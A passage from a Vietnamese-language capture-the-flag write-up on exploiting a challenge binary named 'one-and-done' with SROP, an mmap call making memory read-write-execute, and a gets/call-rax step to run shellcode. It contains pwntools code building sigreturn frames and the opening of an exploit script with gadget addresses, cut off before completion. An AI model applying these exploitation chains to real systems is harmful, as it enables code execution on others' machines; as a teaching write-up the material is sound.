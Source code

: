 
### cách 3 : srop + mmap + shellcode 

- vì rảnh và lâu rồi không làm srop nên mình mất tầm 2 tiếng để giải quyết theo cách này =)))  , mình đã cố gắng không sử dụng các **gadget** và chỉ sử dụng mỗi **srop**

- trước hết vì ta không thể control được địa chỉ nào để khi **srop** nó sẽ quay về **main** 1 lần nữa , mình sẽ ghi **main** vào **bss** trước , ở đây ta cần tránh ghi đè vào các dữ liệu khác 

```python
def read_main():
    payload = p64(pop_rax) + p64(0xf)
    payload += p64(syscall_ret)
    frame = SigreturnFrame(arch="amd64",kernel="amd64")
    frame.rax = 0
    frame.rdi = 0
    frame.rsi = bss
    frame.rdx = 16
    frame.rsp = bss
    frame.rip = syscall_ret
    payload += bytes(frame)
    return payload
```

- rsp ở đây sẽ là con trỏ chứa địa chỉ main -> nó sẽ return về main , tiếp theo stack lúc này sẽ là **bss** và vì **PIE** tắt nên ta hoàn toàn có thể debug và biết được tiếp theo nó sẽ return về đâu 

- ở lần sử dụng **Sigreturn** tiếp theo mình sẽ setup **mmap** 1 địa chỉ với full quyền (rwx) , và rsp sẽ chuỗi rop giúp ta có thêm 1 lần **srop** nữa , lần **srop** kế tiếp sẽ là dùng **gets** , tại sao mình lại sử dụng **gets** ? vì khi đó sau khi **gets** xong thì dữ liệu sẽ được đặt ở **rax** , ta sẽ kết hợp với **call_rax** để thực thi shellcode ^^

đây là setup cho **mmap**

```python
def mmap():
    payload = p64(pop_rax) + p64(0xf)
    payload += p64(syscall_ret)

    frame = SigreturnFrame(arch = "amd64", kernel="amd64")
    frame.rax = 0x9
    frame.rdi = 0x200000
    frame.rsi = 0x100000
    frame.rdx = constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC
    frame.r10 = constants.MAP_ANONYMOUS | constants.MAP_PRIVATE | constants.MAP_FIXED
    frame.r8 = -1
    frame.rip = syscall_ret
    frame.rsp = 0x404898

    payload += bytes(frame)
    return payload
```

exp: 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./one-and-done',checksec=False)

p = process()

offset = 0x120
pop_rdi = 0x0000000000401793
pop_rsi = 0x0000000000401713
pop_rdx = 0x0000000000401f31
```
